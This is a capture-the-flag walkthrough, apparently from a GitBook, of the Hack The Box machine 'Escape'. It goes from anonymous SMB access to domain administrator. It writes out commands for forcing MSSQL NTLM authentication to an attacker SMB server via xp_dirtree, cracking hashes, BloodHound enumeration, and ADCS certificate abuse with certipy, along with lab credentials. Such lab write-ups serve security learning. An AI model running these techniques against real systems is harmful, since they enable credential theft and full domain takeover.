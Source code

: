 # 📦 Escape

I start off with a scan for open ports and anonymous smb share:

<figure><img src="../../../.gitbook/assets/image (215).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (216).png" alt=""><figcaption></figcaption></figure>

and smb share:

<figure><img src="../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

In the public share we can download a _**SQL Server Procedures.pdf**_ file ->

We can see those credentials for the new hired:

<figure><img src="../../../.gitbook/assets/image (214).png" alt=""><figcaption><p>PublicUser:GuestUserCantWrite1</p></figcaption></figure>

We can connect to the mssql instance with local auth:

<figure><img src="../../../.gitbook/assets/image (217).png" alt=""><figcaption></figcaption></figure>

I tried getting command execution with xp\_cmdshell but it was not active, while looking at how i could try to exploit i found this article:

{% embed url="https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478" %}

I did not manage to complete the exploitation by following this article so i tried connecting manually after setting up my smb server:

```
smbserver.py -smb2support myshare /myshare
```

```
 mssqlclient.py sequel.htb/PublicUser:GuestUserCantWrite1@dc.sequel.htb
 EXEC xp_dirtree '\\10.10.14.173\myshare', 1, 1
```

<figure><img src="../../../.gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>

and after cracking the hash we have `REGGIE1234ronnie`

Then after that i run a bloodhound python just to find some stuff we can exploit:

```
bloodhound-python -u sql_svc -p 'REGGIE1234ronnie' -c All -d sequel.htb -ns 10.129.56.57
```

```
neo4j console
bloodhound
```

I get some informations but nothing too crazy for the moment, while enumerating some stuff i found this ADCS misconfig:

<figure><img src="../../../.gitbook/assets/image (219).png" alt=""><figcaption></figcaption></figure>

But i did not manage to find anything for the moment so i continued enumeration

In a C:\SQLServer\Logs file i found this:

<figure><img src="../../../.gitbook/assets/image (220).png" alt=""><figcaption><p>Ryan.Cooper:NuclearMosquito3</p></figcaption></figure>

maybe the person connecting missclicked the auth and revealed the password in clear ->

<figure><img src="../../../.gitbook/assets/image (221).png" alt=""><figcaption></figcaption></figure>

Not knowing too much i followed this blog post about ADCS recon:

{% embed url="https://medium.com/@offsecdeer/adcs-exploitation-part-1-common-attacks-b7ae62519828" %}

```
certipy find -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -text -stdout -vulnerable
```



We see that the template name is UserAuthentication so we can use that to request for administartor's UPN and be able to request a TGT as administrator to dump the NT hash and do pass the hash to connect as admin ->&#x20;

<figure><img src="../../../.gitbook/assets/image (222).png" alt=""><figcaption></figcaption></figure>

```
 certipy req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
 certipy auth -pfx administrator.pfx
```

<figure><img src="../../../.gitbook/assets/image (224).png" alt=""><figcaption></figcaption></figure>
